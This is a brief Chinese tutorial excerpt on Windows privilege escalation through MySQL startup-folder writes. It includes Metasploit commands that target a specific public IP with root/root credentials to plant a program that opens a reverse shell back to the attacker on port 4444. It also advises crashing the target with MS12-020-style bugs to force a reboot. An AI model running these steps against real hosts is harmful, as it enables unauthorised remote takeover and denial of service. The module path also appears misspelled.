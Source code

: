 ## **启动项提权**
这种提权也常见于 Windows 环境下，
当 Windows 的启动项可以被 MySQL 写入的时候，使用 MySQL 将自定义脚本程序导入到启动项目录下，那么这个脚本会在用户登录、开机、关机的时候自动运行。
^
win+r打开启动项目录：shell:startup 
启动项目录：%programdata%\Microsoft\Windows\Start Menu\Programs\Startup\
查看启动项命令：msconfig


^
## **MSF实现mysql启动项提权**
mysql的root开启了外链，知道root密码。
使用MSF写入启动项目录下程序。
```
use exploit/windows/mysq/mysql_start_up
set rhosts 47.102.195.100
set username root
set password root
run
此时也在默认监听4444端口，等待启动项运行后反弹。
```
可以使用ms12-020，ms0708类的漏洞，让对方Windows电脑蓝屏，强制重启。msf中可使用。
启动项运行程序后
反弹到MSF的4444进入最高权限会话。

